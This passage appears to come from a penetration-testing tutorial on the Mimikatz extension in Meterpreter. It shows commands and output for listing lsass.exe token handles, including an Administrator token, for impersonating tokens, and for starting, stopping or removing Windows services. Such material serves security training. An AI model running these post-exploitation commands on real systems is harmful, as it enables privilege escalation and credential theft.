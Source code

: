 ## Other Modules

There are other modules besides the ones shown as examples above. You can review all of them on the [Mimikatz](http://blog.gentilkiwi.com/) website.

## User Token Information

```bash
meterpreter > mimikatz_command -f handle::
Module : 'handle' identifié, mais commande '' introuvable

Description du module : Manipulation des handles
list - Affiche les handles du système (pour le moment juste les processus et tokens)
processStop - Essaye de stopper un ou plusieurs processus en utilisant d'autres handles
tokenImpersonate - Essaye d'impersonaliser un token en utilisant d'autres handles
nullAcl - Positionne une ACL null sur des Handles


meterpreter > mimikatz_command -f handle::list
...snip...
 760 lsass.exe -> 1004 Token NT AUTHORITY ETWORK SERVICE
 760 lsass.exe -> 1008 Process 704 winlogon.exe
 760 lsass.exe -> 1052 Process 980 svchost.exe
 760 lsass.exe -> 1072 Process 2664 fubar.exe
 760 lsass.exe -> 1084 Token NT AUTHORITY\LOCAL SERVICE
 760 lsass.exe -> 1096 Process 704 winlogon.exe
 760 lsass.exe -> 1264 Process 1124 svchost.exe
 760 lsass.exe -> 1272 Token NT AUTHORITY\ANONYMOUS LOGON
 760 lsass.exe -> 1276 Process 1804 psia.exe
 760 lsass.exe -> 1352 Process 480 jusched.exe
760 lsass.exe -> 1360 Process 2056 TPAutoConnSvc.exe
760 lsass.exe -> 1424 Token WINXP-E95CE571A1\Administrator
...snip...
```

## Windows Services Operations

Mimikatz also provides the ability to start, stop and remove Windows services. Let's look at the service module and its options.

```bash
meterpreter > mimikatz_command -f service::
Module : 'service' identifié, mais commande '' introuvable

Description du module : Manipulation des services
 list - List les services et pilotes
 start - Démarre un service ou pilote
 stop - Arrête un service ou pilote
 remove - Supprime un service ou pilote
 mimikatz - Installe et/ou démarre le pilote mimikatz
```
